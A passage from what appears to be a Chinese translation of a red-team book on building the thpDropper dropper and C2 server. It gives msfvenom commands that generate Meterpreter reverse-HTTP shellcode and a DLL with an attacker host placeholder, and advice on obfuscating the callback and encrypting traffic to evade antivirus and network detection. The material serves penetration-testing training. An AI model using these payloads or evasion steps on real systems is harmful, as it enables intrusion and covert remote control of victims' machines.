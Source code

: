 虽然这些 payload（shellcode / DLL）可能是来自任何类型的 C2 工具（Metasploit/Meterpreter，Cobalt Strike 等），但是我们在示例中仅仅使用一个 Meterpreter payload。

生成一个 payload ：
* 对于 Shellcode payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f c
    * 注意，你必须使用 [msfvenom](http://www.ko0zh1.cc/2017/07/27/msfvenom%E8%AF%A6%E8%A7%A3/) 的输出，并且仅仅使用原始的汇编 shellcode（删除引号、新行和任何非 shellcode 的内容）。
    * 启动服务器：./thpd ./shellcode.txt 0 

* 对于 DLL payload ：
    * msfvenom -a x64 -p windows/x64/meterpreter/reverse_http LHOST=<Your_IP> LPORT=\<PORT\> EnableStageEncoding=True -f dll > msf.dll 
    * 启动服务器: ./thpd ./msf.dll 1
    
### 客户端
客户端以与服务器类似的方式运行，其中它为每种消息类型注册了一个处理程序（handler）。在启动时，它将尝试回调服务器，如果无法连接或一旦断开连接则重试 n 次，并发送消息要求加载 blob 对象。服务器将使用 `BLOB_PACKET` 进行响应，客户端将通过 `head`--> `msg` 字段识别并分派该 `BLOB_PACKET`。所有数据包必须在开始时定义 `HEAD_PACKET` 字段，否则网络处理程序将无法识别它，并将其丢弃。 使用 `BuildPacketAndSend()` 函数将正确设置头数据包，允许另一方解码它。

要构建客户端，你需要使用 `Visual Studio` 和 `Git` 。 首先将 Git 仓库（ https://github.com/cheetz/thpDropper.git ）克隆到一个文件夹中，然后在 `Visual Studio` 中打开 `thpDropper.sln`。确保为代码设置了正确的体系结构，如果你不需要任何调试信息，请将编译模式设置为`build for release`。完成此操作后，按 F7 键（编译快捷键），`Visual Studio` 会为你生成可执行文件。

### 配置客户端和服务器
在 `globals.cpp` 文件中可以查看大多数客户端的配置，你想要更改的三个主要配置设置是主机名、端口和数据包时间间隔。每个设置旁都有详细的注释，告诉你它们是什么。虽然你不需要更改数据包签名，但我还是得说一下：更改数据包签名将修改发送的每个数据包的前 2 个字节，用于标识它是服务器上的有效连接。如果你希望对 IP 和端口进行模糊处理，则可以编写代码以在访问它们时对其进行解密，并仅将加密版本存储在二进制文件中。

在服务器端，在 `main.cpp` 文件中，你可以修改服务器正在监听的端口。此配置在 main 函数中作为 `StartupNetworking()` 的唯一参数。如果你决定更改客户端中的数据包签名，则需要修改服务器以反映该数据包。这意味着在 `include/lib/networking.h` 文件中，`PACKET_SIGNATURE` 值要与客户端中的全局变量相匹配。

### 添加新的处理程序
设置网络代码库可以允许你轻松地添加新功能。为此，你需要使用客户端上的 `void name()` 原型或服务器上的 `void name(int conn)` 原型来创建一个回调函数。这些将被注册到你的消息类型的处理程序数组，并且在验证头数据包时调用它们。在这些函数中，你必须从 `recv` 缓冲区中读取包和相关数据。你需要调用 `recv()` 来指向数据包结构上的指针，以及该数据包的大小。这将提供关于需要从 `recv` 缓冲区中拉取多少数据的信息。在这个例子中，你将看到我们在处理程序中读取 `BLOB_PACKET` ，然后使用存储在 `packet.payloadLen` 中的值来指示我们需要进一步读取的字节数。相同的原理可以应用于其他的数据类型。如果要将包含文件路径的字符串发送到受害者计算机上的某个文件，你需要在处理程序的数据包中设置一个字段，用于描述字符串的长度，你将在发送完数据包之后发送该字符串。

### 进一步练习
虽然此代码库已经可以为你的工作提供一个可靠的基础，但你仍然可以通过多种方式自行改进。比较直接的思路是在传输层上加一个简单的加密层。你可能希望创建自己的 `send` 和 `recv` 包装器，用于在调用 `send` 和 `recv` 函数之前进行解密/加密。一种非常简单的实现方法是使用多字节异或密钥，虽然不是很安全，但至少会充分的改变你的消息，使之不易识别。另一个可能的思路是扩展 `LoadBlobHandler()` 函数，使之具有新的 `LOAD_TYPE`。使用这种新 LOAD_TYPE 的话，如果客户端以管理员身份运行，就会加载已签名的驱动程序。这可以通过使用 `CreateService()` 和 `StartService()` 这两个 Windows API 调用来完成。但是需要记住加载驱动程序需要它在磁盘上，这将触发文件系统的微型过滤器驱动程序来获取它。

## 重新编译 Metasploit/Meterpreter 以绕过杀毒软件和网络检测
我真的很想谈谈这个话题。但请注意，这将会有一些超前，所以你很可能在编译期间遇到一些问题。有很多很棒的工具，比如 Metasploit / Meterpreter，但是每个防病毒和网络入侵检测（NID）工具都为它开发了签名。我们可以尝试使用 `Shikata Ga Nai` 来混淆通过 HTTPS 传输的 payload，但也仅此而已。任何类型的混淆通常都会有一个检测的存根签名，杀毒软件会检查内存，查看特定某些位置的特殊字符串。网络流量可以通过 HTTPS 执行中间人检查。那么我们怎样才能继续使用我们喜欢的工具，同时绕过所有常见的保护措施呢？让我们以 Metasploit/Meterpreter 为例，看看我们如何绕过所有这些障碍。我们的目标是处理和解决二进制文件的杀毒软件签名（静态特征），内存运行中的特征和网络流量特征。
